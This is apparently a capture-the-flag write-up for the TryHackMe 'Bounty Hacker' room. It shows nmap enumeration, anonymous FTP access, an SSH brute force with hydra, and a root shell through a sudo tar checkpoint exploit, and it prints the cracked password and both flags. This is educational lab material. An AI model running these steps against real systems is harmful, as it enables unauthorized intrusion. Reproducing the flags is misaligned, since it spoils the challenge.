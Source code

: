 # 🏴‍☠️ TryHackMe - Bounty Hacker

**Platform:** TryHackMe  
**Challenge Type:** Boot2Root  
**Author:** Gage Ayala ([@GageGotya](https://github.com/GageGotya))  
**Date:** April 9, 2025  
**Difficulty:** ⭐ Easy  

---

## 📘 Overview

The **Bounty Hacker** room places you in the role of a digital bounty hunter targeting a cybercriminal syndicate.  
You'll enumerate a server, access files via FTP, crack credentials, and escalate to root using a misconfigured sudo permission.

> 💡 A great beginner-friendly room covering foundational pentesting techniques like recon, password reuse, and privilege escalation.

---

## 🌐 Information Gathering

**Target IP:** _Provided by the room_

### 🔍 Nmap Scan

```bash
nmap -sC -sV <target-ip>
```

**Ports Discovered:**

- `21/tcp` – FTP (vsftpd 3.0.3, anonymous login allowed)  
- `22/tcp` – SSH (OpenSSH 7.2.2)  
- `80/tcp` – HTTP (Apache httpd 2.4.18)

---

## 📂 FTP Access

```bash
ftp <target-ip>
Name: anonymous
```

### 📁 Files Discovered

```bash
ftp> ls
locks.txt
task.txt

ftp> get locks.txt
ftp> get task.txt
```

#### 📄 task.txt

```
1.) Protect Vicious.  
2.) Plan for Red Eye pickup on the moon.  
-lin
```

🔑 **Username hint:** `lin`

#### 📄 locks.txt

Custom password list found — likely reused credentials.

---

## 🔓 Gaining Access

### 🚀 Brute Force with Hydra

```bash
hydra -l lin -P locks.txt ssh://<target-ip>
```

✅ **Password Found:** `RedDr4gonSynd1cat3`

---

## 🔐 SSH Access

```bash
ssh lin@<target-ip>
```

---

## 🏁 User Flag

```bash
cat ~/Desktop/user.txt
```

**Flag:**  
```
THM{CR1M3_SyNd1C4T3}
```

---

## 🪜 Privilege Escalation

### 🔍 Sudo Permissions

```bash
sudo -l
```

```text
User lin may run the following command as root:
(root) /bin/tar
```

### 📦 Exploiting tar

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```bash
whoami
root
```

---

## 👑 Root Flag

```bash
cat /root/root.txt
```

**Flag:**  
```
THM{80UN7Y_h4cK3r}
```

---

## 💡 Reflections

- Anonymous FTP access is often overlooked but powerful  
- Password reuse is still a major weakness  
- Always run `sudo -l` — it's a goldmine  
- Even basic tools like `tar` can grant root when misconfigured

---

## 🧠 Pro Tip

> *"When in doubt, poke around, read everything, and always try the simple stuff first."*

---

## 📁 Summary of Key Files

| File        | Description                            |
|-------------|----------------------------------------|
| `locks.txt` | Password list used in brute-force      |
| `task.txt`  | Initial objective + username clue      |
| `user.txt`  | First flag found on user's desktop     |
| `root.txt`  | Root flag retrieved after escalation   |
